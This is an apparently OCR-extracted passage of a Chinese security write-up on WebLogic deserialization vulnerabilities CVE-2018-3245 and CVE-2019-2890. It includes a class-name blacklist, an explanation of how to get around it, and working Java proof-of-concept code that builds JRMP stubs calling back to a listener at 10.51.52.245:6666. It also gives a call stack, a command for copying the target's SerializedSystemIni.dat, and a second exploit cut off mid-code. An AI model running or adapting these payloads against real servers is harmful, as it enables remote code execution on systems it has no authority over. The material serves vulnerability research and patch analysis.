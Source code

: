 { "org.codehaus.groovy.runtime.ConvertedClosure", "org.codehaus.groovy.runtime.ConversionHandler", "org.codehaus.groovy.runtime.MethodClosure", "org.springframework.transaction.support.AbstractPlatformTransactionManager","java.rmi.server.UnicastRemoteObject", "java.rmi.server.RemoteObjectInvocationHandler" };新增java.rmi.activation.*sun.rmi.server.*java.rmi.server.RemoteObjectInvocationHandlerjava.rmi.server.UnicastRemoteObjectCVE-2018-3245上文中有提到新增黑名单包名/类名：java.rmi.activation.*,sun.rmi.server.*,java.rmi.server.RemoteObjectInvocationHandler,java.rmi.server.UnicastRemoteObject但对我们完整的反序列化流程中真正有影响的只有java.rmi.server.RemoteObjectInvocationHandler类的使用，若有一个类满足：1.不在黑名单中2.继承自java.rmi.server.RemoteObject3.readObject逻辑未重写，或不影响readExtenal方法调用即可绕过黑名单检测。随便找一个都行，比如RMIConnectionImpl_Stubimport com.sun.jndi.rmi.registry.ReferenceWrapper_Stub;import sun.rmi.server.UnicastRef;import sun.rmi.transport.LiveRef;import sun.rmi.transport.tcp.TCPEndpoint;import javax.management.remote.rmi.RMIConnectionImpl_Stub;import java.io.*;import java.rmi.server.ObjID;import java.util.Base64;import java.util.Random;public class CVE_2018_3245 {    public static Object getObject() {        ObjID id = new ObjID(new Random().nextInt());        TCPEndpoint tcpEndpoint = new TCPEndpoint("10.51.52.245", 6666);        UnicastRef unicastRef = new UnicastRef(new LiveRef(id, tcpEndpoint, false));        RMIConnectionImpl_Stub stub = new RMIConnectionImpl_Stub(unicastRef);        ReferenceWrapper_Stub object = new ReferenceWrapper_Stub(unicastRef);        return stub;    }    public static void main(String[] args) throws IOException, ClassNotFoundException {        ByteArrayOutputStream fout = new ByteArrayOutputStream();        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fout);        objectOutputStream.writeObject(getObject());        objectOutputStream.close();        System.out.println(Base64.getEncoder().encodeToString(fout.toByteArray()));//        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(fout.toByteArray());//        ObjectInputStream inputStream = new ObjectInputStream(byteArrayInputStream);//        inputStream.readObject();    }}其他可利用类就不赘述了。CVE-2019-2890Weblogic 10.3.6.0.0Weblogic 12.1.3.0.0Weblogic 12.2.1.3.0问题出现在PersistentContext类上在PersistentContext的readObject方法中会将ObjectInputStream类的var1对象传入readSubject方法readSubject方法会先调用EncryptionUtil.decrypt()对传入的stream流进行解密，并将后续解密后的流量进行反序列化：由于此处为ObjectInputStream原生的readObject()，并未有其他的readObject重写实现，故在后续过程中能够成功触发恶意反序列化利用链（下图为jrmp利用链执行结果）调用栈如下registerRefs:155, DGCClient (sun.rmi.transport)read:312, LiveRef (sun.rmi.transport)readExternal:493, UnicastRef (sun.rmi.server)readObject:455, RemoteObject (java.rmi.server)invoke0:-1, NativeMethodAccessorImpl (sun.reflect)invoke:62, NativeMethodAccessorImpl (sun.reflect)invoke:43, DelegatingMethodAccessorImpl (sun.reflect)invoke:498, Method (java.lang.reflect)invokeReadObject:1058, ObjectStreamClass (java.io)readSerialData:2122, ObjectInputStream (java.io)readOrdinaryObject:2013, ObjectInputStream (java.io)readObject0:1535, ObjectInputStream (java.io)defaultReadFields:2231, ObjectInputStream (java.io)readSerialData:2155, ObjectInputStream (java.io)readOrdinaryObject:2013, ObjectInputStream (java.io)readObject0:1535, ObjectInputStream (java.io)readObject:422, ObjectInputStream (java.io)readSubject:168, PersistentContext (weblogic.wsee.jaxws.persistence)readObject:147, PersistentContext (weblogic.wsee.jaxws.persistence)invoke0:-1, NativeMethodAccessorImpl (sun.reflect)invoke:62, NativeMethodAccessorImpl (sun.reflect)invoke:43, DelegatingMethodAccessorImpl (sun.reflect)invoke:498, Method (java.lang.reflect)invokeReadObject:1058, ObjectStreamClass (java.io)readSerialData:2122, ObjectInputStream (java.io)readOrdinaryObject:2013, ObjectInputStream (java.io)readObject0:1535, ObjectInputStream (java.io)readObject:422, ObjectInputStream (java.io)readObject:66, InboundMsgAbbrev (weblogic.rjvm)read:38, InboundMsgAbbrev (weblogic.rjvm)readMsgAbbrevs:283, MsgAbbrevJVMConnection (weblogic.rjvm)init:213, MsgAbbrevInputStream (weblogic.rjvm)dispatch:498, MsgAbbrevJVMConnection (weblogic.rjvm)dispatch:330, MuxableSocketT3 (weblogic.rjvm.t3)dispatch:387, BaseAbstractMuxableSocket (weblogic.socket)readReadySocketOnce:967, SocketMuxer (weblogic.socket)readReadySocket:899, SocketMuxer (weblogic.socket)processSockets:130, PosixSocketMuxer (weblogic.socket)run:29, SocketReaderRequest (weblogic.socket)execute:42, SocketReaderRequest (weblogic.socket)execute:145, ExecuteThread (weblogic.kernel)run:117, ExecuteThread (weblogic.kernel)该漏洞存在一定的利用条件，构造poc时需要目标服务器weblogic当前使用域下的SerializedSystemIni.dat文件，否则将无法构造PersistentContext类或是目标服务器decrypt失败：docker cp weblogic1036jdk8u121:/u01/app/oracle/Domains/ExampleSilentWTDomain/security/SerializedSystemIni.dat ./官方修复方案：在PersistentContext类进行readSubject方法时新增WSFilteringObjectInputStream，其resolveClass方法仅允许Subject的子类进行后续反序列化操作：POC：import sun.rmi.server.UnicastRef;import sun.rmi.transport.LiveRef;import sun.rmi.transport.tcp.TCPEndpoint;import weblogic.kernel.KernelStatus;import weblogic.wsee.jaxws.persistence.PersistentContext;import weblogic.kernel.KernelStatus.*;import java.io.*;import java.lang.reflect.Field;import java.lang.reflect.Proxy;import java.rmi.registry.Registry;import java.rmi.server.ObjID;import java.rmi.server.RemoteObjectInvocationHandler;import java.util.Base64;import java.util.Random;public class CVE_2019_2890  {    public static Registry getObject(String command) throws Exception {        int sep = command.indexOf(58);        String host;        int port;        if (sep < 0) {            port = (new Random()).nextInt(65535);            host = command;        } else {            host = command.substring(0, sep);            port = Integer.valueOf(command.substring(sep + 1));        }        ObjID id = new ObjID((new Random()).nextInt());        TCPEndpoint te = new TCPEndpoint(host, port);        UnicastRef ref = new